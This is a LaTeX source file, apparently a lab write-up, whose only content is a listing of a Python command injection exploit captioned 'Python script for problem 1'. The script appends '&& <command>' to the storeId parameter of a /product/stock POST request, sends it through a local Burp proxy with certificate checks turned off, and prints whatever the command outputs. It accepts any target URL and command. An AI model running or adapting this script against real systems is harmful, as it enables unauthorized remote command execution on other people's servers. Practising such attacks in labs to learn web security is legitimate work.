 \documentclass{article}
\begin{document}
\begin{description}
    \begin{lstlisting}[label={lst:modified-request},caption={Python script for problem 1}, showspaces=false,showstringspaces=false]
    import requests
    import sys
    import urllib3

    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

    # Send the requests through Burp to be able to examine them
    proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

    def run_command(url: str, command: str):
        stock_path = '/product/stock'
        command_injection = '1 && ' + command
        params = {'productId': '1', 'storeId': command_injection}
        r = requests.post(url + stock_path, data=params, verify=False, proxies=proxies)
        if (len(r.text) > 3):
            print(f"(+) Command injection succesful!")
            print(f"(+) Output of command:\n{r.text}")
        else:
            print("(-) Command injection failed.")

    def main():
        # Check the number of arguments to the program is correct
        if len(sys.argv) != 3:
            print(f"(-) Usage: {sys.argv[0]} <url> <command>")
            print(f"(-) Example: {sys.argv[0]} www.example.com whoami")
            sys.exit(1)

        url = sys.argv[1]
        command = sys.argv[2]
        print(f"(+) Exploiting command injection...")
        run_command(url, command)

    if __name__ == '__main__':
        main()
  \end{lstlisting}
\end{description}

\newpage
\end{document}
